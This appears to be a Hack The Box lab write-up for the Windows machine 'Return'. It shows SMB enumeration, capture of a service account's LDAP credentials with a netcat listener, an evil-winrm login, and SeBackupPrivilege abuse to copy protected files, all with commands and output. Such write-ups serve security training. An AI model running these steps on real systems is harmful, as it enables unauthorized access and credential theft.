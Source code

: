 ```yaml
---
title: "Return"
date: 09-03-2025
categories: [Windows, Easy]
tags: [Easy, AD, SeBackUpPriv]
image: https://labs.hackthebox.com/storage/avatars/defa149ea7e259a4709a03a5825e970d.png
---
```


Return is an easy Windows machine. It has a lot of ports open which might be overwhelming at first but if you enumerate carefully you can quickly discard ports until you only have one clear route to get the foothold. After getting credentials for the **svc-printer** user we can use the **SeBackupPrivilege** this user has to read any file in the system without administrator level permissions. 

![return_info_card](/assets/images/return/Return.png)

## Footprinting

Running an nmap scan on the target shows that this is an active directory machine and it is the domain controller machine. I assume this because I see that port 88 is open which is used by the KDC to grant TGT's. As usual with Windows machines we have SMB left open and we can try signing in with null credentials. It is also worth noting that the server has a webpage in port 80 which we will investigate later on. The other two interesting ports are 389 and 47001 which are LDAP and WinRM respectively.  
![return](/assets/images/return/Pasted image 20250309192028.png)

#### SMB

I always try to enumerate as much as I can with SMB since it can be a quick win and we can get interesting files. Since we do not have credentials we can try logging in with a null session. 

```
smbclient -N -L 10.10.11.108
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.108 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

We see that it allows us to login but it does not list any shares. I tried again with the default guest account some Windows machines have enabled with the credentials `Guest:` but the account was disabled. I also tried to use `rpcclient` to try to enumerate the system further but this time the null session did not let me in. At this point I could not proceed with SMB and I focus my attention somewhere else. I tend to leave potentials SMB exploits after I have enumerated everything and discarded other potential entry points.

#### Webpage

The page is a printer admin panel, the only page that has useful information is the settings page. I see that it has some data already filled in. It would have been pretty easy if the password was already filled in but the `*****` is just a placeholder. From this already filled out form we get a username `svc-printer` the form seems to be making a request to `printer.return.local` which is a subdomain of the host. 
![return](/assets/images/return/Pasted image 20250302193758.png)

Using `burpsuite` I intercept the request to examine its contents. I was expecting to see a password change request but it is a simple POST request to `settings.php` with the following field:  `ip=printer.return.local`. The first thing I did was set up a listener on my box to see if I get any sort of connection back from the server. `nc -lvnp 389` I click update and we get a connection with the following data.

```
listening on [any] 389 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.108] 58395
0*`%return\svc-printer�
                       1edFg43012!!

```

#### Enumerating Users and Groups

We clearly see the credentials that were hidden on the webpage. We can try enumerating the system now with `netexec` and the credentials `svc-printer:1edFg43012!!`. Using the `--users` flag we can enumerate the users in the box.

```
netexec  smb 10.10.11.108 -u svc-printer -p '1edFg43012!!' --users
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.108    445    PRINTER          Administrator                 2021-07-16 15:03:22 0       Built-in account for administering the computer/domain 
SMB         10.10.11.108    445    PRINTER          Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.108    445    PRINTER          krbtgt                        2021-05-20 13:26:54 0       Key Distribution Center Service Account 
SMB         10.10.11.108    445    PRINTER          svc-printer                   2021-05-26 08:15:13 0       Service Account for Printer 
SMB         10.10.11.108    445    PRINTER          [*] Enumerated 4 local users: RETURN
```

We see that there are only four Users three of which are defaults in Active Directory machines. If there were more users I would try enumerating further maybe running bloodhound and enumerating potentially intersting groups or ACLs but since this is an easy machine and we already have the credentaisl for the only user on the box we can now login into the machine using `evil-winrm` with the credentials of the user. 

```
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

## Privilege Escalation

After getting the initial foothold as the `svc-printer` user I try to enumerate what privileges this user has with the command: `whoami /priv` and we get the following list.

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

I spot that this user has the `SeBackUpPrivilege` enabled. There is a very easy way to use this privilege to read any file in the system. I used this [exploit](https://github.com/giuliano108/SeBackupPrivilege) and using `evil-winrrm's` upload functionality I transfer the two dll files we need to exploit this privilege. We now have all the tools necessary to perform this exploit, we just need to import both modules. 

```
*Evil-WinRM* PS C:\Users\svc-printer\desktop> import-module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc-printer\desktop> import-module .\SeBackupPrivilegeUtils.dll
```

Using the following command we can now transfer any file to our current directory and read it. In this case I simply copied the root flag but in a real scenario we would have copied the SAM database or any other file that would contain sensitive information from which we would further attack the system.

```
Copy-FileSeBackupPrivilege 'C:\Users\Administrator\Desktop\root.txt' .\root.txt
```